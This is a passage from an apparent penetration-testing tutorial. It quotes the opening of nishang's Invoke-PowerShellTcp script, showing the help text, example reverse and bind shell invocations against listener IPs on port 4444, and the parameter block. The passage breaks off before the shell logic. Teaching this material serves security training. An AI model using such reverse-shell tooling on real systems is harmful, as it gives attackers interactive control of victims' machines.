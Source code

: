 The one-liner we just examined together can also be executed in the form of a PowerShell script ( `.ps1`). We can see an example of this by viewing the source code below. This source code is part of the [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) project:

```powershell
function Invoke-PowerShellTcp
{
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target.
.DESCRIPTION
This script is able to connect to a standard Netcat listening on a port when using the -Reverse switch.
Also, a standard Netcat can connect to this script Bind to a specific port.
The script is derived from Powerfun written by Ben Turner & Dave Hardy
.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.
.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on
the given IP and port.
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port.
.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )


    try
```